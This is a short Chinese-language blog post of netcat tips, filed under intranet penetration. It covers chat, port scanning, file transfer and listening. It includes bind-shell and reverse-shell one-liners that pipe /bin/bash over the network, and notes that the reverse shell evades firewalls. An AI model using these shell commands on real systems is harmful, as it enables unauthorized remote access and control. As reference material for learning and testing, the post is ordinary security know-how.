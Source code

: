 ```yaml
---
title: "netcat 使用技巧"
date: 2018-02-14T00:00:00+08:00
draft: false
tags: ['windows','linux']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


netcat 是一个用于 TCP/UDP 连接和监听的 linux 工具, 主要用于网络传输及调试领域.

<!--more-->

## 聊天室

`Server: nc -l -p port`

`Client: nc ip port`

此时在 client 输入任何内容都会在 server 中显示

## 端口扫描

`nc -v ip port`

`nc -v ip port-port`

参数

```
-v 详细输出 -vv 更详细
-w sec 设置超时时间 单位秒
-z 在扫描端口后立即关闭连接
```

ex

`nc -vv -w 3 -z 10.0.0.1 1-65535`

## 正向连接

`Server: nc -l -p port -e /bin/bash`

`Client: nc ip port`

参数

```
-e 连接后执行的程序
```

client 连接 server

有时会被防火墙拦截

## 反向连接

`Client: nc -vv -l -p port`

`Server: nc -e /bin/bash ip port`

server 连接 client

不会被防火墙拦截

## 数据传输

**发送**

`Client: nc ip port < file`

`Server: nc -d -l -p port > file`

参数

```
< 输入重定向
> 输出重定向
```

**接收**

`Server: nc -d -l -p port < file`

`Client: nc ip port > file`

## 蜜罐

`nc -L -p port`

参数

```
-L 持续监听
```